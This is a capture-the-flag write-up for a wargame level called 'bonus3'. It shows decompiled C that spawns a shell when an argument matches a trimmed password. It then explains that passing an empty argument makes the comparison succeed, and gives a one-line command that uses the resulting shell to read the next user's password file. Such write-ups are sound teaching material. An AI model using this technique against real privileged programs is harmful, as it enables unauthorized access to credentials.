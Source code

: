 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← bonus2](../bonus2/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;"></span>
</span>

bonus3
======

Decompilation
-------------

The program looks like this:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int ac, char **av)
{
	int err;
	char buff[64 + 1 + 66];
	FILE *pass_file;

	pass_file = fopen("/home/user/end/.pass","r");

	bzero(buff, 33);

	if ((pass_file == NULL || (ac != 2)))
		err = -1;
	else
	{
		fread(buff, 1, 66, pass_file);
		buff[64] = '\0';

		buff[atoi(av[1])] = '\0';

		fread(buff + 64 + 1, 1, 65, pass_file);

		fclose(pass_file);

		if (strcmp(buff, av[1]) == 0)
			execl("/bin/sh", "sh", NULL);
		else
			puts(buff + 64 + 1);

		err = 0;
	}
	return err;
}
```

The main opens the end user's pass file and reads it's contents into a buffer.
It does so twice, at different offsets, but the second call should only read a NUL-byte.
The string is trimmed to the length specified in the first argument.
If the trimmed password is equal to the argument, a shell will be launched.

Exploitation
------------
This one is too easy...
The return value of atoi when given an empty string is zero. If we pass an empty string as an argument, the password string will become an empty string and the comparison will succeed.

```sh
./bonus3 '' <<< 'cat /home/user/end/end'
```
```
Congratulations graduate!
```
